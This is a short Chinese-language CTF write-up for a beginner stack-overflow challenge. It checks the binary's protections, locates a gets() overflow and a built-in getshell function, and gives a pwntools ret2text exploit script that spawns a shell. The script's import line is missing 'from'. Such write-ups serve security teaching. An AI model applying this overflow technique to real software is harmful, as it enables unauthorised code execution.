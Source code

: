 ```yaml
---
title: 基础栈溢出ret2text 已有提权函数
layout: doc
---
```

[[toc]]

> 32位寄存器4个字节，函数传参只使用栈

## 基础检查
> 本例题是PolarD&N的基础入门pwn题 小狗汪汪汪

使用file和checksec 查看elf的位数和安全保护
```bash
┌──(kali㉿kali)-[~/win/Downloads]
└─$ file woof
woof: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=b3b9279f6e821fe77197c0b174bfee82dd39de52, not stripped
                                                                       
┌──(kali㉿kali)-[~/win/Downloads]
└─$ checksec --file=woof
[*] '/home/kali/win/Downloads/woof'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
> 可以看到是32为小段序程序，且没有开启栈保护


## IDA反编译源码
![alt text](image.png)

可以看到main函数的流程，值得注意的是 dog函数


![alt text](image-1.png)
很明显可以看到gets这里存在栈溢出，s是一个长度为9的字符数组

![alt text](image-2.png)

要覆盖的地址在 栈上的 s + ebp 的位置 也就是 9 + 4

然后找一下有没有可以执行系统命令的函数
![alt text](image-3.png)
![alt text](image-4.png)

存在getshell函数

我们获取它的地址是 0x0804859B

## 编写exp脚本
> 使用pwntools库 可以方便的编写exp
```py
pwn import *

io = process("./woof")
# io = remote("120.46.59.242", 2111)

getshell_addr = 0x0804859B

padding = 9 + 4

payload = b'A' * padding + p32(getshell_addr)

io.send(payload)
io.interactive()

```

执行脚本后可获得交互shell